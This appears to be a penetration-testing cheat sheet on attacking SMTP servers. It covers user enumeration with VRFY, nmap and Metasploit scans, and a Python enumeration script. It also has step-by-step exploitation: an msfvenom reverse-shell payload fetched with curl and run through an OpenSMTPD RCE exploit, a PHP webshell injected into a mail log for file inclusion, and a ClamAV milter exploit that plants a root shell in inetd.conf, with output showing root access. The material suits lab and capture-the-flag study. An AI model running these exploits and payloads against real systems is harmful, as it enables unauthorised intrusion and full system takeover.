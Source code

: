 # smtp 25

## <a href='https://www.ionos.com/digitalguide/e-mail/technical-matters/smtp/' target="blank">What is SMTP?</a>

## Server Connection

``` bash
$ nc -nvC $ip 25
$ telnet $ip 25

VRFY root
EXPN
```

## SMTP Commands

``` bash
$ helo admin
$ mail from:<>
$ rcpt to:<nobody>
$ data
hades
.
```

## Scanning Vul

``` bash
$ nmap $ip -p 25 --script=smtp-*
```

``` bash
$ sudo msfconsole -q -x "setg RHOSTS $ip;
use auxiliary/scanner/smtp/smtp_enum; run;
use auxiliary/scanner/smtp/smtp_relay; run;
use auxiliary/scanner/smtp/smtp_version; run;
exit"
```

## Scripting

=== "Scripting"

	``` bash
	python3 smtp-vrfy.py <username>
	```

=== "smtp-vrfy.py"

	``` python
	#!/usr/bin/python3

	import socket
	import sys

	if len(sys.argv) != 2:
		print("Usage: python3 sys.argv[0] <username>")
		sys.exit(0)

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	connect = s.connect(('192.168.11.131',25))

	banner = s.recv(1024)

	print (banner)

	s.send('VRFY ' + sys.argv[1] + '\r\n')
	result = s.recv(1024)

	print(result)

	s.close()
	```

## OpenSMTPD < 6.6.1 - rce

[https://www.exploit-db.com/exploits/47984](https://www.exploit-db.com/exploits/47984)

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ip LPORT=25 -f elf > shell.elf
```

``` bash
sudo python3 -m http.server 80
```

``` bash
python3 47984.py ip 25 'curl ip/shell.elf -o /tmp/shell'
python3 47984.py ip 25 'chmod +x /tmp/shell'
python3 47984.py ip 25 '/tmp/shell'
```

``` bash
sudo nc -nvlp 25                     
listening on [any] 25 ...
connect to [ip] from (UNKNOWN) [ip] 57356
id
uid=0(root) gid=0(root) groups=0(root)
```

## LFI to rce

[https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1-straylight-smtp_log_file_inclusion-screen_4.5.0#foothold](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1-straylight-smtp_log_file_inclusion-screen_4.5.0#foothold)

==> Postfix mail log: `/var/log/mail.log`

``` bash
$ nc -nC ip 25
220 straylight ESMTP Postfix (Debian/GNU)
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "root@localhost"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as D4E985515
quit
221 2.0.0 Bye
```

## Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock'

[https://www.exploit-db.com/exploits/34896](https://www.exploit-db.com/exploits/34896)

## ClamAV Milter 0.92.2

[https://www.exploit-db.com/exploits/4761](https://www.exploit-db.com/exploits/4761)

``` bash
perl 4761.pl ip
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking ip...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 26 Jul 2021 09:42:48 -0400; (No UCE/UBE) logging access from: [ip](FAIL)-ip]
250-localhost.localdomain Hello [ip], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 16QDgmnb004808 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

``` bash
$ nc -nv ip 31337 
(UNKNOWN) [ip] 31337 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
```